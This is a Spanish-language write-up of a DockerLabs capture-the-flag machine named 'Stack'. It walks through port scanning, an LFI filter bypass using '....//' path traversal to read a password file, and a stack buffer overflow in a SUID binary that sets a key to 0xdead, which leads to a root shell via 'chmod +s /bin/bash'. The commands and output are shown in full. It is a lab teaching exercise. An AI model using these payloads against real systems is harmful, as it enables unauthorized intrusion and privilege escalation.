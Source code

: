 #MAQUINA #DOCKERLABS #MEDIO 
#LFI
<hr>

#  RECONOCIMIENTO

Vamos a resolver **Stack** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 09:39 CET
Initiating ARP Ping Scan at 09:39
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 09:39, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 09:39
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 09:39, 0.51s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-02-26 09:39:37 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)




```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene los puertos **22(SSH),** **80(HTTP)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 09:40 CET
Nmap scan report for 172.17.0.2
Host is up (0.000015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 85:7f:49:c5:89:f6:ce:d2:b3:92:f1:40:de:e0:56:c4 (ECDSA)
|_  256 6d:ed:59:b8:d8:cc:50:54:9d:37:65:58:f5:3f:52:e3 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Web en producci\xC3\xB3n
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.51 seconds




```

```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 09:40 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds




```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.


## HTTP (80)

Al hacer Ctrl + U al entrar :

```bash
        <!--Mensaje para Bob: hemos guardado tu contrase�a en /usr/share/bob/password.txt-->
```

Usamos **gobuster** para enumerar:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,js,txt,png,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 417]
/file.php             (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/note.txt             (Status: 200) [Size: 110]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos una nota :

```bash
Hemos detectado el LFI en el archivo PHP, pero gracias a str_replace() creemos haber tapado la vulnerabilidad
```

Hay un posible **LFI**.

# EXPLOTACION

Usamos **wfuzz** para encontrar el parámetro:

```bash
wfuzz -u "http://172.17.0.2/file.php?FUZZ=note.txt" -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=0
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/file.php?FUZZ=note.txt
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000000741:   200        1 L      17 W       110 Ch      "file"

```

Podemos ver que no podemos hacer uso de cadenas para intentar ejecutar comandos remotamente.

Vamos a intentar escapar de ese str_replace.

Probando veo que si meto doble doble punto y doble barra, me escapo:

```bash
http://172.17.0.2/file.php?file=....//....//....//....//....///usr/share/bob/password.txt
llv6ox3lx300
```

YA ESTAMOS COMO BOB.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUID sobre algo:

   ```bash
bob@dada52a04e82:/opt$ find / -perm -4000 2>/dev/null
/opt/command_exec
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
```

Vemos **command_exec** y al ejecutarlo :

```bash
bob@cbd0c0c8c355:/opt$ ./command_exec 
Escribe la contraseña: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Estás en modo usuario (key = 41414141)
key debe valer 0xdead para entrar al modo administrador
Segmentation fault

```

Vemos que necesitamos 76 A para sobreescribir la variable:

```bash
python -c "print('A'*76 + 'BBBB')" | ./command_exec 

Escribe la contraseña: Estás en modo usuario (key = 42424242)
key debe valer 0xdead para entrar al modo administrador

```

Escribimos nuestro script :
```bash
bob@cbd0c0c8c355:~$ cat script.py 
#!/usr/bin/env perl
$|=1;

$payload = "A" x 76;
$payload .= pack("Q",0xdead);

print $payload;
```

Lo ejecutamos y le ponemos SUID a la bash :
```bash

bob@cbd0c0c8c355:~$ (./script.py ; cat) | /opt/command_exec 
Escribe la contraseña: f
Estás en modo administrador (key = dead)
Escribe un comando: chmod +s /bin/bash

bob@cbd0c0c8c355:~$ ls /bin/bash
/bin/bash
bob@cbd0c0c8c355:~$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# 

```

**YA ESTAMOS COMO ROOT.**

